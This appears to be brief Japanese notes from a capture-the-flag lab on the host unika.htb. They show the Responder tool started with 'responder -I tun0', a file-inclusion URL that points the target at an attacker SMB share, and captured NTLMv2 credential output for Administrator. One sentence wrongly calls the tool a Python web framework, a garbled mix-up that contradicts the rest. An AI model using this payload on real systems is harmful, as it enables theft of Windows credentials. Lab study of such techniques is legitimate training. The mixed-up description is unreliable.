 Responder は、ネットワーク偵察や、NetBIOS ネームサービス (NBNS) や Link-Local Multicast Name Resolution (LLMNR) の要求をポイズニングしてユーザー認証情報を取得する

responderとはPythonのWebアプリケーションフレームワークです。  
responderの特徴として、非同期処理が簡単に記述できる点と、GraphQL APIが簡単に書ける点などが挙げられます。
> -I ネットワークインターフェイスの指定
```
responder -I tun0
```

```
http://unika.htb/index.php?page=//10.10.14.75/abc

[SMB] NTLMv2-SSP Client	:10.129.163.169
[SMB] NTLMv2-SSp Username	: RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash	: Administrator::RESPONDER:23ca2a.......

```